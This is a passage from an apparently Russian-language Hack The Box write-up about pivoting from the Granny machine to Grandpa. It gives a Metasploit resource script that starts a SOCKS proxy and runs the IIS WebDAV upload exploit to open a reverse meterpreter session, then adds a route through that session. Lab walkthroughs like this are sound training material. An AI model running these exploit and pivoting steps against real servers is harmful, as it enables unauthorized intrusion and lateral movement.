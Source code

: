 ## Точка опоры

Хост посередине — а именно Granny — будем называть «точкой опоры» или «опорным пунктом» (англ. [foothold](https://www.offensive-security.com/metasploit-unleashed/pivoting/)). Через него будет проходить передача трафика до Grandpa и обратно. Первым делом получим доступ к точке опоры, как мы это делали ранее.

Я написал скрипт автозапуска для Metasploit, чтобы в случае, если что-то пойдет не так, и нужно будет перезапускать всю эту конструкцию, мне не пришлось бы заново вручную вводить команды.

```
# pivot.rc

use auxiliary/server/socks4a
set SRVPORT 9050
run -j

use exploit/windows/iis/iis_webdav_upload_asp
set LHOST tun0
set RHOST 10.10.10.15
set InitialAutoRunScript migrate -f
exploit -j

back
```

В первом блоке я поднимаю прокси-сервер на локальном порту `9050`, а во втором — использую модуль `iis_webdav_upload_asp` для получения низкопривилегированной сессии meterpreter и сразу же мигрирую в другой процесс, чтобы не словить ошибку нехватки токенов (прав доступа).

```
root@kali:~# msfconsole -qr pivot.rc
```

[![msf-pivot-granny-iis-webdav-upload-asp.png]({{ "/img/htb/boxes/grandparents/msf-pivot-granny-iis-webdav-upload-asp.png" | relative_url }})]({{ "/img/htb/boxes/grandparents/msf-pivot-granny-iis-webdav-upload-asp.png" | relative_url }})
{: .center-image}

После этого с помощью команды `route add` я добавляю правило маршрутизации для открытой сессии meterpreter (сессия 1).

```
msf5 > route add 10.10.10.14/32 1
[*] Route added
```

Здесь через слеш я указываю маску подсети `255.255.255.255` (в нотации бесклассовой адресации — [CIDR](https://ru.wikipedia.org/wiki/Бесклассовая_адресаця)), чтобы ассоциировать с этим правилом только один хост — Grandpa (`10.10.10.14`).

Предварительные настройки завершены, в чем можно убедиться с помощью команд `jobs` и `route`.

```
msf5 > jobs
msf5 > route
```


[//]: # (2019-12-26)